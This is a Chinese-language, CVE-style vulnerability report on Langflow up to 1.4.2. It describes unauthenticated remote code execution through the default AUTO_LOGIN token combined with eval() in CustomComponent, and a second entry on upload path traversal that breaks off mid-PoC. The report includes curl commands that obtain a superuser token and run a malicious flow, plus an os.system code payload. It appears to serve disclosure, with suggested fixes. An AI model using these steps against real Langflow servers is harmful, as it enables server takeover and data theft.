### 2. CVE-Style: (间接) 未经认证的远程代码执行 (RCE) via CustomComponent (Langflow <= 1.4.2)

*   **漏洞类型 (CWE):** CWE-94 (Improper Control of Generation of Code - 'Code Injection') - 主要; CWE-269 (Improper Privilege Management) - 因`AUTO_LOGIN`导致权限提升。
*   **受影响组件:** `langflow.interface.custom.utils.evaluate_code` (被 `CustomComponent` 使用); 利用链涉及 `/api/v1/login/auto_login` 和 `/api/v1/run/{flow_id_or_name}` (或 `/api/v1/run/advanced/{flow_id}`).
*   **漏洞摘要:** Langflow 由于默认启用的 `AUTO_LOGIN` 功能 (授予超级用户权限) 以及 `CustomComponent` 中不安全的 `eval()` 使用，允许未经认证的远程攻击者执行任意Python代码。攻击者首先通过 `/api/v1/login/auto_login` 获取超级用户令牌。然后，利用此令牌创建或修改一个包含恶意`CustomComponent`的流程。最后，通过 `/api/v1/run/...` API (在默认配置下，当无API密钥提供时，此API也以超级用户身份运行) 执行该流程，触发恶意代码。
*   **攻击向量/利用条件:**
    1.  远程、未经认证的攻击者。
    2.  Langflow实例默认 `AUTO_LOGIN=true`。
    3.  攻击者能够访问 `/api/v1/login/auto_login`, 创建流程/组件的API (如 `/api/v1/flows/`, `/api/v1/custom_component/`), 以及执行流程的API (如 `/api/v1/run/{flow_id_or_name}`).
*   **技术影响:** 成功利用允许未经认证的攻击者在Langflow应用服务器上以运行应用的权限执行任意Python代码，可能导致服务器完全被控制、数据泄露、或进一步的网络渗透。
*   **PoC描述 (结合 `AUTO_LOGIN`):**
    1.  **前提:** Langflow默认安装。
    2.  **步骤1: 获取超级用户令牌 (未经认证)**
        ```bash
        ACCESS_TOKEN=$(curl -s -X GET "http://<langflow_host>:7860/api/v1/login/auto_login" | jq -r .access_token)
        echo "Got access token: $ACCESS_TOKEN"
        ```
    3.  **步骤2: 创建包含恶意代码的CustomComponent和流程 (使用获取的令牌)**
        *   构造一个创建CustomComponent的POST请求到 `/api/v1/custom_component/`，`code` 字段包含如 `"__import__('os').system('touch /tmp/pwned_by_unauth_rce')"`。
        *   构造一个创建流程的POST请求到 `/api/v1/flows/`，将此组件加入流程。记下返回的 `flow_id`。
        (具体请求体构造复杂，省略，但原理同之前报告中的RCE PoC，只是现在使用 `$ACCESS_TOKEN`)
        假设恶意流程ID为 `MALICIOUS_FLOW_ID`.
    4.  **步骤3: 执行恶意流程 (无需提供令牌，利用 `AUTO_LOGIN` 机制下的 `api_key_security` 默认行为)**
        ```bash
        curl -X POST "http://<langflow_host>:7860/api/v1/run/MALICIOUS_FLOW_ID" -H "Content-Type: application/json" -d '{}'
        ```
        或者，如果觉得上一步令牌还有效，也可以带上：
        ```bash
        curl -X POST "http://<langflow_host>:7860/api/v1/run/MALICIOUS_FLOW_ID" -H "Authorization: Bearer $ACCESS_TOKEN" -H "Content-Type: application/json" -d '{}'
        ```
    5.  **预期结果:**
        *   文件 `/tmp/pwned_by_unauth_rce` 在Langflow服务器上被创建。
*   **建议修复:**
    *   主要：修复 `AUTO_LOGIN` 漏洞 (见 CVE-1)。
    *   次要：对 `CustomComponent` 的 `eval()` 进行沙箱化或移除，并加强谁能创建/修改自定义组件的权限控制，即使是认证用户。

### 3. CVE-Style: (间接) 未经认证的文件上传路径遍历 (Langflow <= 1.4.2)

*   **漏洞类型 (CWE):** CWE-22 (Path Traversal) - 主要; CWE-269 (Improper Privilege Management) - 因`AUTO_LOGIN`导致。
*   **受影响组件:** `langflow.api.v1.flows.upload_file` (间接调用 `StorageService.upload_file`); 利用链涉及 `/api/v1/login/auto_login` 和 `POST /api/v1/flows/upload/`.
*   **漏洞摘要:** Langflow 由于默认启用的 `AUTO_LOGIN` 功能，允许未经认证的攻击者获取超级用户权限。利用此权限，攻击者可以访问文件上传接口 (`/api/v1/flows/upload/`)，该接口未能充分清理用户提供的文件名中的路径遍历序列 (`../`)。这使得攻击者可以将文件写入服务器文件系统上预期存储目录之外的任意位置。
*   **攻击向量/利用条件:**
    1.  远程、未经认证的攻击者。
    2.  Langflow实例默认 `AUTO_LOGIN=true`。
    3.  攻击者能访问 `/api/v1/login/auto_login` 和 `/api/v1/flows/upload/`。
*   **技术影响:** 成功利用允许攻击者将上传的文件写入服务器任意位置（若应用权限允许）。可能导致覆盖关键文件、写入可执行脚本（潜在RCE）、或拒绝服务。
*   **PoC描述 (结合 `AUTO_LOGIN`):**
    1.  **前提:** Langflow默认安装。
    2.  **步骤1: 获取超级用户令牌 (未经认证)**
        ```bash